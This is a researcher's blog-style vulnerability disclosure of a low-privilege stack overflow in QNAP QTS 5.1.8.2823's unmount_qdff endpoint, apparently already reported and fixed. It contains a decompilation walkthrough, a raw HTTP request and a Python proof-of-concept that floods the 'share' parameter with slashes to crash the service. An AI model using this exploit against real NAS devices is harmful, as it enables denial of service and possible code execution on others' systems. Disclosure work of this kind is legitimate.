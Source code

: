 ```yaml
---
title: Security Research of QTS 5.1 - Low-Authed StackOverflow 
published: true
---
```


就在这周笔者发现了 QNAP NAS QTS 操作系统的一处低权限用户的 StackOverflow 漏洞，该情况已经汇报给厂商 SRC 并且大范围修复

这个地方不出意外还有其他利用方式和利用链，如果有想了解分析该漏洞进一步细节的请联系笔者交流

好久没发了，还是更新一下吧

# [](#header-3)A report on the StackOverflow vulnerability of QTS 5.1.8.2823

Vulnerability Product: QTS 5.1.8.2823  
Vulnerability type: StackOverflow / Further harm  
Vulnerability Authentication Requirement: Low privilege

There is a StackOverflow vulnerability in the QTS 5.1.8.2823. When an attacker has a low privilege account of the system, the attacker could upload a qdff and mount it, then call "unmount_qdff" and use some specific methods and parameters to cause a StackOverflow vulnerability

## [](#header-3)AUDIT:

There are several functions mentioned below. Let me first explain their uses:  
sub_10B3F8: The entrance of "unmount_qdff", Here in after referred to as "unmount_qdff"  
sub_10B350: Function used to unmount qdff  
sub_BE8B4: Used to determine whether qdff is loaded and decide whether to call sub_10B350. This is the first function that needs to be bypass  
Delete_QDFF_Share: Used to determine whether the qdff unmount is successful and decide whether to call sprintf. This is the second function that needs to be bypass

There is a sprintf was found in the function: "sub_10B350", and the "sub_10B350" is called by "unmount_qdff", The "unmount_qdff" retrieves the value of parameter "share" and assigns it to the variable a1 and checks whether qdff has been mounted into the system and unmount the qdff 

A standard POST request that can enter "unmount_qdff" interface is as follows

```http
POST /cgi-bin/filemanager/utilRequest.cgi?func=unmount_qdff&sid={YOUR_SID} HTTP/1.1
Host: 88.88.66.100:5000
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 10

share=asdf
```

![/image/resources/1.png](/image/resources/qts_1.png)

You must mount a qdff folder at first, if the name of mounted qdff folder is "asdf", you can bypass the sub_BE8B4(bypass it and step into sub_10B350) and Delete_QDFF_Share(bypass it and step into sprintf) by adding an infinite number of '/' before the "asdf" in parameter "share"(Such as "//////////////////////////////asdf")

In a brief word, if there is a mounted qdff folder named "xxx", you can add any number of '/' in the header of parameter "share" to bypass detection, and the QTS system will mistakenly judge that "//////////////////xxx" is "xxx"

Finally execute sprintf and successfully StackOverflow(If you add enough '/', 100000 or 200000, So that it is enough to write the return address of the main running function)

![/image/resources/1.png](/image/resources/qts_2.png)
![/image/resources/1.png](/image/resources/qts_3.png)

![/image/resources/1.png](/image/resources/qts_6.png)


The premise of all the above operations is that the qdff has been mounted, because in sub_BE8B4 or Delete_QDFF_Share, they will always check whether the qdff is mounted.

![/image/resources/1.png](/image/resources/qts_7.png)

## [](#header-3)PROVE: 

1. Firstly upload the poc.zip and unzip it(If there is already a mounted qdff, skip this step and modify the value of share)

    [Download poc.zip](/image/resources/poc.zip)
   
    ![/image/resources/1.png](/image/resources/qts_4.png)

2.  mount the qdff(If there is already a mounted qdff, skip this step and modify the value of share)

    ![/image/resources/1.png](/image/resources/qts_5.png)

3.  Get the known current user sid, run belowing code and input the IP、Port、sid

    ```py
    import requests

    host = input("Please input the IP: ")
    port = input("Please input the Port: ")
    port = port if port != '' else '5000'
    sid = input("Please input the sid: ")

    data = 'share=' + '/' * 120000 + 'asdf'

    res = requests.post(
        url = f"http://{host}:{port}/cgi-bin/filemanager/utilRequest.cgi?func=unmount_qdff&sid={sid}", 
        headers = {
            'Host': f'{host}:{port}',
            'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8',
            'Content-Length': str(len(data))
        },
        data = data
    )

    print('----------------------------------')
    print(res.text)
    print('----------------------------------')

    if 'Internal Server Error' in res.text: 
        print('Success! ')
    else:
        print('Failed, please check if sid has expired')
    ```

    ![/image/resources/1.png](/image/resources/qts_6.png)

## [](#header-3)HARM: 

A low privileged attacker could manipulate the qdff folder name to redirect the current function to the address corresponding to the qdff folder name, Even causing RCE

## [](#header-3)Further Research

## [](#header-3)Info

This vulnerability was submitted for research purposes, So after QTS 5.1.8.2823 fixes the vulnerability and issues a CVE number, I will publicly disclose the details of the vulnerability for research purposes regardless of whether there is a bounty or not

discovered by leeya_bug